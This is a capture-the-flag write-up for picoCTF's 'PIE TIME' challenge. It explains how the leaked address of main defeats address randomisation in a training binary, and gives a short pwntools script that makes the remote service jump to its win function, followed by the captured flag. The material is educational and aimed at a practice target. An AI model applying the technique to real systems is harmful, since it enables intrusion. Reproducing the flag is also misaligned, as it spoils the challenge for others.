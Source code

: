 # [PIE TIME](https://play.picoctf.org/practice/challenge/490)  

## Challenge Information  
- **Category**: Binary Exploitation  
- **Difficulty**: Medium  
- **Description**: Can you try to get the flag? Beware we have PIE!  

## Solution Overview  
This challenge involves exploiting a binary with **Position Independent Executable (PIE)** enabled. PIE randomizes the base address of the binary in memory, making it harder to predict function addresses. Our goal is to bypass this protection and retrieve the flag.  

## Hints  
- Can you figure out what changed between the address you found locally and in the server output?  

## Detailed Walkthrough  

### Step 1: Disassembling the Binary  
#### Inspecting the Binary  
1. **Download the challenge binary and run basic analysis:**  
   ```bash
   lim@gettokari:~$ file vuln
   vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
   ```

   ```bash
   lim@gettokari:~$ checksec --file=vuln
   RELRO        STACK CANARY   NX          PIE          RPATH     RUNPATH      Symbols       FORTIFY Fortified    Fortifiable  FILE
   Full RELRO   Canary found   NX enabled  PIE enabled  No RPATH  No RUNPATH   78 Symbols      No    0            1            vuln
   ```
   - The `checksec` output confirms that **PIE is enabled**.  
   - This means function addresses will change across executions.  

2. **Find key functions in the binary:**  
    ```bash
    lim@gettokari:~$ objdump -d vuln | grep "<main>"
        11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi   # 133d <main>
    000000000000133d <main>:
        1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi   # 133d <main>
    ```
    ```bash
    lim@gettokari:~$ objdump -d vuln | grep "<win>"
    00000000000012a7 <win>:
    ```
    - The `win` function is at offset `0x12a7`.
    - The `main` function is at offset `0x133d`.

### Step 2: Leak a PIE Address  
- Identify an info leak that reveals an address from the binary.
    ```bash
    lim@gettokari:~/ctf$ nc rescued-float.picoctf.net 55759
    Address of main: 0x5c2b8ce0333d
    Enter the address to jump to, ex => 0x12345: 
    ```
- The challenge provides the address of `main`.

### Step 3: Calculate the Win Function Address  
- Since PIE shifts addresses by a random base, compute the `win` address using:  
   ```python
   win_address = main - 0x133d + 0x12a7
   ```
- This formula uses the leaked `main` address to calculate `win`'s actual address at runtime.

### Step 4: Build and Execute the Exploit  
```python
from pwn import *
t = remote('rescued-float.picoctf.net', 55759)
t.recvuntil(b"Address of main: ")  
main = int(t.recvline().strip(), 16)
t.sendlineafter(b": ", hex(main - 0x133d + 0x12a7).encode())
print(t.recvall().decode())
```

### Key Insights  
- **PIE randomization** requires an info leak to bypass.
- **Address calculation** allows targeting the `win` function.
- **Using pwntools** simplifies remote exploit execution.

## Tools and Resources Used  
- `checksec` (to check binary protections)  
- `objdump` (for disassembling binaries)
- `pwntools` (for exploit development)  

## Flag  
```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}
```

## Learning Points  
- How **PIE** works and how to bypass it  
- Finding **info leaks** to compute binary base addresses  
- Writing exploits for **PIE-enabled binaries**  

## References  
- [Understanding PIE in Binaries](https://ir0nstone.gitbook.io/notes/binexp/stack/pie)